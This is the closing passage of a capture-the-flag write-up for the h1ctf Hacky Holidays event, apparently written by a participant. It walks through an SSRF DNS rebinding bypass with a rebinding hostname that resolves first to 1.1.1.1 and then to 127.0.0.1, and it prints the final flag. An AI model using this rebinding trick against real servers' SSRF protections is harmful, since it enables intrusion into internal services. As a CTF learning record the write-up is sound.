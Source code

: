 Unfortunately, all of them doesn't work. 

But what about a canonical name? Let's run attack against `hackyholidays.h1ctf.com` target:

```json
[
  {"id":"36293","content":"Setting Target Information","goto":false},
  {"id":"36295","content":"Getting Host Information for: hackyholidays.h1ctf.com","goto":false},
  {"id":"36296","content":"Host resolves to 18.216.153.32","goto":false},
  {"id":"36297","content":"Local target detected, aborting attack","goto":false}
]
```

The response almost the same as above, **but now**, the server resolves the hostname with DNS. What if the server validates IP after DNS resolving and after that pings the original hostname?

There is the type of SSRF attack called *DNS rebinding*. Shortly, this is a method of manipulating resolution of domain names. Let's build our *SSRF DNS rebinding* attack. We need to have hostname that will be resolved to 1.1.1.1 (for example) on the first call to bypass the server SSRF protection, and resolved to 127.0.0.1 every time after that, and we'll attack the Grinch's host.

For this attack we will use [Whonow DNS Server](https://github.com/brannondorsey/whonow) tool, there is already the working server that can do what we need. Build target url `A.1.1.1.1.1time.127.0.0.1.forever.rebind.network`, and let's run attack against it:

```js
[
  {"id":"38456","content":"Setting Target Information","goto":false},
  {"id":"38457","content":"Getting Host Information for: A.1.1.1.1.1time.127.0.0.1.forever.rebind.network","goto":false},
  {"id":"38458","content":"Host resolves to 1.1.1.1","goto":false},
  {"id":"38459","content":"Spinning up botnet","goto":false},
  {"id":"38460","content":"Launching attack against: A.1.1.1.1.1time.127.0.0.1.forever.rebind.network \/ 127.0.0.1","goto":false},
  {"id":"38461","content":"No Response from attack server, retrying...","goto":false},
  {"id":"38462","content":"No Response from attack server, retrying...","goto":false},
  {"id":"38463","content":"No Response from attack server, retrying...","goto":"\/attack-box\/challenge-completed-a3c589ba2709"}
]
```

Wow, we got a link in `goto` field, let's open it, and there is the last flag:

{F1138115}

- The 12th flag: `flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}`.

# Conclusion

I would like to say "big thanks" to the organizers and to all the people who helped me, when I have been stuck. It was really fun event:)!

# References

- [gobuster](https://github.com/OJ/gobuster)
- [John the Ripper](https://www.openwall.com/john/)
- [thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [hashcat](https://hashcat.net/hashcat/)
- [rebind.network](https://github.com/brannondorsey/whonow)
- [MD5 conversion and reverse lookup](https://md5.gromweb.com/)
- [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)
- [Scientific notation](https://en.wikipedia.org/wiki/Scientific_notation)
- [SQL injection UNION attacks](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#UnionInjections)
- [MySQL Hexadecimal Literals](https://dev.mysql.com/doc/refman/8.0/en/hexadecimal-literals.html)
- [MD5 hash with salt](https://www.md5online.org/blog/md5-salt-hash/)